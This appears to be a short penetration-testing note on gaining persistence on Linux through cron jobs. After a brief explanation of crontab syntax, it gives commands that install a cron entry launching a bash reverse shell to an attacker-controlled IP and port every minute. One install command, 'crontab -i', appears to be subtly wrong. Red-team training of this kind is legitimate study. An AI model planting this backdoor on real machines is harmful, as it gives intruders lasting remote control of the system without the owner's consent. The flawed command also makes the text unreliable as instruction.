# Establishing Persistence via CRON Jobs
Cronjobs are programs or scripts which users can schedule to run at specific times or intervals.  Cronjobs are managed by the CRON daemon, which is a background process that constantly checks a configuration file called the "crontab."

![[Cron Anatomy.png]]

`* * * * *`  means that the cronjob will run every minute.

##### HOW TO GAIN PERSISTENCE USING CRONJOBS:

Once we gain access to a shell either Root or a normal user shell. Every User on the system has the privilege to create Cronjobs for themselves. These created cronjobs can found in local crontab `crontab -l`.
<br>
Using this privilege we can execute a reverse shell one liner and create it as a Cronjob. Such that it runs every minute and connect to he local NETCAT listener.

```sh
# CREATE A NEW CRONJOB AND STORE IT
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1' "> [FILENAME]

#NOW ADD THE CRONJOB TO THE CRONTAB
crontab -i [FILENAME]

# CHECK THE WHETHER ITS UPDATED
crontab -l
```
